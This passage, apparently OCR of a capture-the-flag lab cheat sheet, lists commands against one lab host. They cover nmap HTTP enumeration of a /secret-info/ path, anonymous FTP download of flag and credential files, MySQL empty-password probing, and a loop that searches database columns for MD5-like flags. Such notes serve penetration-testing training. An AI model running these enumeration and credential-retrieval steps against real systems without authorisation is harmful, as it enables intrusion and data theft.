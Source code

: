 
```bash
nmap -p80 --script http-enum --script-args 'http-enum.root=/secret-info/,http-enum.verbosity=2' 192.96.75.3 -oN /tmp/enum_secret.txt
nmap -p80 --script http-grep --script-args 'http-grep.pattern=[a-f0-9]{32},http-grep.uri=/secret-info/' 192.96.75.3 -oN /tmp/grep_secret.txt
```

- Fetch a specific file with nmap (if helpful):
    

```bash
nmap -p80 --script http-fetch --script-args 'http-fetch.path=/secret-info/flag.txt' 192.96.75.3 -oN /tmp/fetch_flag.txt
```

### FTP (anonymous)

- Interactive retrieve:
    

```bash
ftp 192.96.75.3
# user: anonymous  pass: anonymous
ls -la
get flag.txt
get creds.txt
quit
```

- Non-interactive mirror (if needed):
    

```bash
wget --no-passive-ftp --ftp-user=anonymous --ftp-password=anonymous ftp://192.96.75.3/ -r -nd -P /tmp/ftp_dump
egrep -o '[a-f0-9]{32}' /tmp/ftp_dump/* | sort -u
```

### MySQL

- Probe with nmap NSE first (shows empty-password candidates and auth plugin):
    

```bash
nmap -p3306 --script=mysql-info,mysql-enum,mysql-empty-password -sV 192.96.75.3 -oN scans/mysql_nse.txt
```

- Connect interactively (do not put password on CLI):
    

```bash
mysql -h 192.96.75.3 -u db_admin -p
# then: SHOW DATABASES;  SHOW TABLES IN dbname; SELECT ...
```

- Enumerate text-ish columns and search for MD5 patterns:
    

```bash
mysql -h 192.96.75.3 -u db_admin -p -N -e "
SELECT table_schema,table_name,column_name,data_type
FROM information_schema.columns
WHERE table_schema NOT IN ('mysql','information_schema','performance_schema','sys')
  AND data_type IN ('char','varchar','text','mediumtext','longtext');" > /tmp/textcols.tsv

while IFS=$'\t' read -r schema table column dtype; do
  mysql -h 192.96.75.3 -u db_admin -p -N -e \
    "SELECT \`$column\` FROM \`$schema\`.\`$table\` WHERE \`$column\` RLIKE '[a-f0-9]{32}' LIMIT 1;" \
  | sed -n '1p' && echo "MATCH: $schema.$table.$column" && break
done < /tmp/textcols.tsv
```

